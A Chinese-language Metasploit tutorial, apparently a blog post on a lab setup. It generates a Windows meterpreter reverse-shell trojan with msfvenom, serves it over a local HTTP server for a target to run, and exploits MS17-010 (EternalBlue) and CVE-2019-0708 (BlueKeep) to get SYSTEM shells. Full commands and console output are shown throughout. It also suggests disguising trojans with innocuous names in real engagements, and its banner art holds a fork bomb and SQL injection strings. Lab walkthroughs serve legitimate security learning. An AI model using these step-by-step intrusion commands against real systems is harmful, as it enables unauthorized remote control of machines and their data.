


# Metasploit框架的简单使用

Metasploit是经典的渗透测试框架，常见与很多的渗透测试环境中，也能独立安装与windows,linux环境

```shell
[neko@NekoArch ~]$ msfconsole 
Metasploit tip: Use the edit command to open the currently active module 
in your editor
                                          
                                              `:oDFo:`                    
                                           ./ymM0dayMmy/.                  
                                        -+dHJ5aGFyZGVyIQ==+-            
                                    `:sm⏣~~Destroy.No.Data~~s:`        
                                 -+h2~~Maintain.No.Persistence~~h+-      
                             `:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`  
                          ./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.  
                       -++SecKCoin++e.AMd`       `.-://///+hbove.913.ElsMNh+-  
                      -~/.ssh/id_rsa.Des-                  `htN01UserWroteMe!-  
                      :dopeAW.No<nano>o                     :is:TЯiKC.sudo-.A:  
                      :we're.all.alike'`                     The.PFYroy.No.D7:  
                      :PLACEDRINKHERE!:                      yxp_cmdshell.Ab0:  
                      :msf>exploit -j.                       :Ns.BOB&ALICEes7:  
                      :---srwxrwx:-.`                        `MS146.52.No.Per:  
                      :<script>.Ac816/                        sENbove3101.404:  
                      :NT_AUTHORITY.Do                        `T:/shSYSTEM-.N:  
                      :09.14.2011.raid                       /STFU|wall.No.Pr:  
                      :hevnsntSurb025N.                      dNVRGOING2GIVUUP:  
                      :#OUTHOUSE-  -s:                       /corykennedyData:  
                      :$nmap -oS                              SSo.6178306Ence:  
                      :Awsm.da:                            /shMTl#beats3o.No.:  
                      :Ring0:                             `dDestRoyREXKC3ta/M:  
                      :23d:                               sSETEC.ASTRONOMYist:  
                       /-                        /yo-    .ence.N:(){ :|: & };:  
                                                 `:Shall.We.Play.A.Game?tron/  
                                                 ```-ooy.if1ghtf0r+ehUser5`  
                                               ..th3.H1V3.U2VjRFNN.jMh+.`  
                                              `MjM~~WE.ARE.se~~MMjMs      
                                               +~KANSAS.CITY's~-`          
                                                J~HAKCERS~./.`            
                                                .esc:wq!:`                
                                                 +++ATH`                    
                                                  `


       =[ metasploit v6.3.43-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > 
```

msfconsole是Metasploit中的一个重要模块，甚至可以说它就是Met中最精华的模块之一，上面是msf启动后的样子

启动命令就是 `msfconsole`

这次我们将用这个模块渗透攻击两个靶机，除了漏洞使用外还有木马生成，漏洞分别是ms17-010与cve2019-0708都是相对有名的漏洞，我们将用它来熟悉msf的基础

以下是这次会涉及的内容

* msfvenom木马生成
* msfconsole中的poc与exp的使用
* 反弹shell与直连shell

ok 开始吧

先来点简单的——一些基础名词

* **payload[有效载荷]**

  有效载荷又叫做payload一般指的就是通过漏洞或某种手段交付到目标系统的恶意代码，恶意代码可以各式各样，窃取信息，恶意代理，shellcode，宽泛点说只要是获取了他不该获取的信息都可以称之为“恶意代码"
* **poc[概念验证]**

  POC 是 "Proof of Concept"（概念验证）的缩写。在安全领域一般为漏洞的概念验证，他的存在是为了为某个漏洞提供足够的证据，有时候可靠的poc也可被改造为漏洞的扫描工具
* **exp[漏洞利用]**

  "Exp" 是 "exploit" 的缩写，指的是漏洞利用（Exploitation）的手段或工具。他是一种通过系统，软件漏洞来获得系统控制权的方式，一般而言一个exp有三个要素，漏洞，payload，利用方式。
* **Reverse Shell［反弹shell］**

  反弹shell，目标通过自身网络返回攻击者的设备，并建立一个交互式shell。这样的特性使得他常常出现于被攻击设备位于NAT后的情况。
* **Bind Shell [直连shell]**

  直连shell，被攻击的设备将系统连接到自身ip与特定端口，建立交互shell，攻击者通过连接获得系统的控制权，类似的ssh就是一种直连shell。这样的特性使得他通常出现于攻击者位于NAT后的情况。

理解了这些我们就可以正式的来生成一个木马

## msfvenom木马生成

这个是msfvenom翻译后的help页

```shell
MsfVenom - Metasploit 独立负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/opt/metasploit/msfvenom [选项] <var=val>
示例：/opt/metasploit/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o Payload.exe

选项：
     -l, --list <type> 列出 [type] 的所有模块。 类型有：有效负载、编码器、nops、平台、拱门、加密、格式、所有
     -p, --payload <payload> 要使用的有效负载（--list 要列出的有效负载，--list-options 用于参数）。 为自定义指定“-”或 STDIN
         --list-options 列出 --payload <value> 的标准、高级和规避选项
     -f, --format <格式> 输出格式（使用--list 格式列出）
     -e, --encoder <encoder> 要使用的编码器（使用 --list 编码器列出）
         --service-name <value> 生成服务二进制文件时使用的服务名称
         --sec-name <值> 生成大型 Windows 二进制文件时使用的新节名称。 默认值：随机 4 字符字母字符串
         --smallest 使用所有可用的编码器生成尽可能小的有效负载
         --encrypt <value> 应用于 shellcode 的加密或编码类型（使用 --list encrypt 列出）
         --encrypt-key <值> 用于--encrypt 的密钥
         --encrypt-iv <value> --encrypt 的初始化向量
     -a, --arch <arch> 用于 --payload 和 --encoders 的架构（使用 --list archs 列出）
         --platform <platform> --payload 的平台（使用 --list platform 列出）
     -o, --out <path> 将有效负载保存到文件中
     -b, --bad-chars <list> 要避免的字符示例：'\x00\xff'
     -n, --nopsled <length> 在有效负载上添加 [length] 大小的 nopsled
         --pad-nops 使用 -n <length> 指定的 nopsled 大小作为总有效负载大小，自动预先添加数量的 nopsled（nops 减去有效负载长度）
     -s, --space <length> 结果有效负载的最大大小
         --encoder-space <length> 编码有效负载的最大大小（默认为 -s 值）
     -i, --iterations <count> 对有效负载进行编码的次数
     -c, --add-code <path> 指定要包含的附加 win32 shellcode 文件
     -x, --template <path> 指定用作模板的自定义可执行文件
     -k, --keep 保留 --template 行为并将有效负载作为新线程注入
     -v, --var-name <值> 指定用于某些输出格式的自定义变量名称
     -t, --timeout <秒> 从 STDIN 读取负载时等待的秒数（默认 30，0 禁用）
     -h, --help 显示此消息
```

我们可以通过上面的提示来生成一个最简单的木马

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.43.155 LPORT=4444 > test.exe`

```shell
[neko@NekoArch ~]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.43.155 LPORT=4444 -f exe -o test.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: test.exe
```

这样我们就有了一个最基础的的木马，当他被运行时他会往192.168.43.155:4444这个地址发送一个 meterpretershell。

我们可以在本地开一个简单的http服务器让被攻击设备访问下载木马运行。

```shell
[neko@NekoArch ~]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

同时在msfconsole新建一个监听器来接收shell，一般使用exploit/multi/handler模块

`search handler`

搜索

`use 30`

跳转到模块

```shell
msf6 > use 30
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > 
```

一般情况下默认的payload是linux的shell，我们可以通过options来查看详细信息

```shell
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.
```

我们可以通过set命令来设置大多数参数

`set payload windows/x64/meterpreter/reverse_tcp`

通过opt可以看到他默认的端口就是4444，我们只需要填入我们本地的ip地址即可。可以通过ip a来查看

`set lhost 192.168.43.155`

```shell
Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.43.155   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

run

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.43.155:4444 
```

靶机下载文件



双击运行

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.43.155:4444 
[*] Sending stage (200774 bytes) to 192.168.43.63
[*] Meterpreter session 1 opened (192.168.43.155:4444 -> 192.168.43.63:49281) at 2023-12-07 19:29:45 +0800

meterpreter > 
```

连接建立

```shell
meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

真正渗透的时候一般都会对木马做免杀，伪装等等处理，最起码改个什么QQupdata，system.dll之类的名称来做伪装。

## 经典款漏洞ms17010

> 常见的软件漏洞一般就算能拿到shell也是最低权限的shell，但是，感谢微软，一步到位system权限的漏洞是鉴中之鉴。————Neko205

感谢msf，让一切变得简单轻松加愉快，特别是这种常见或者经典的漏洞。我们只需要找到漏洞的poc对内网进行扫描，找到漏洞设备，用exp发动攻击就好了。

```shell
msf6 exploit(multi/handler) > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```

`use 3`

设置ip，设置线程数。也可以使用options来查看相信设置

`set rhost 192.168.43.155/24`

对整个网段进行扫描

`set threads 100`

设置100的线程数

run

```shell
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[-] 192.168.43.76:445     - Rex::ConnectionRefused: The connection was refused by the remote host (192.168.43.76:445).
[+] 192.168.43.62:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
```

这就是找到了，这时候切到exp模块

 `use 0`

```shell
msf6 auxiliary(scanner/smb/smb_ms17_010) > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

 这里的设置和当时设置监听模块差不多，可以通过opt看一下本地ip是否正确，然后配置被攻击设备的ip

`set rhosts 192.168.43.62`

run

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.43.155:4444 
[*] 192.168.43.62:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.43.62:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
[*] 192.168.43.62:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.43.62:445 - The target is vulnerable.
[*] 192.168.43.62:445 - Connecting to target for exploitation.
[+] 192.168.43.62:445 - Connection established for exploitation.
[+] 192.168.43.62:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.43.62:445 - CORE raw buffer dump (36 bytes)
[*] 192.168.43.62:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.43.62:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.43.62:445 - 0x00000020  37 36 30 30                                      7600      
[+] 192.168.43.62:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.43.62:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.43.62:445 - Sending all but last fragment of exploit packet
[*] 192.168.43.62:445 - Starting non-paged pool grooming
[+] 192.168.43.62:445 - Sending SMBv2 buffers
[+] 192.168.43.62:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.43.62:445 - Sending final SMBv2 buffers.
[*] 192.168.43.62:445 - Sending last fragment of exploit packet!
[*] 192.168.43.62:445 - Receiving response from exploit packet
[+] 192.168.43.62:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.43.62:445 - Sending egg to corrupted connection.
[*] 192.168.43.62:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.43.62
[*] Meterpreter session 2 opened (192.168.43.155:4444 -> 192.168.43.62:49158) at 2023-12-07 19:55:14 +0800
[+] 192.168.43.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.43.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.43.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 
```

当出现WIN的字样并且跳出shell就证明成功了

```shell
meterpreter > sysinfo
Computer        : WIN-37KNDA6U40V
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

该说不说，权限比传木马还高

## cve2019-0708 Windows RDP的RCE漏洞

和上面差不多，但是这个漏洞很容易蓝屏盖，所以一般不建议实战使用，poc确定漏洞就可以报送了。不过我们这里是靶场环境，那就可以玩玩getshell

`search cve 2019 0708`

先用poc扫一遍

`use0`

```shell
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 192.168.43.155/24
rhosts => 192.168.43.155/24
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set threads 100
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
[+] 192.168.43.63:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
```

切exp

```shell
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > use 1
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts 192.168.43.63
rhosts => 192.168.43.63
```

除了正常的基础配置这个漏洞还需要将target配置到合适的参数，我们的目标是windows7那么就将target设为1

```shell
Exploit target:

   Id  Name
   --  ----
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
```

run

```shell
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run

[*] Started reverse TCP handler on 192.168.43.155:4444 
[*] 192.168.43.63:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.43.63:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.43.63:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.43.63:3389    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.43.63:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.43.63:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8013200000, Channel count 1.
[!] 192.168.43.63:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.43.63:3389 - Surfing channels ...
[*] 192.168.43.63:3389 - Lobbing eggs ...
[*] 192.168.43.63:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.43.63:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Sending stage (200774 bytes) to 192.168.43.63
[*] Meterpreter session 3 opened (192.168.43.155:4444 -> 192.168.43.63:49327) at 2023-12-07 20:22:48 +0800

meterpreter > 
```

```shell
meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

可以看到当时在run的是很脚本有提示一个进入危险区，如果在这时候强制结束脚本设备就会蓝屏，当然可能也不需要手动结束，网络不稳定，传输不稳定，都有可能导致蓝屏



ok结束。
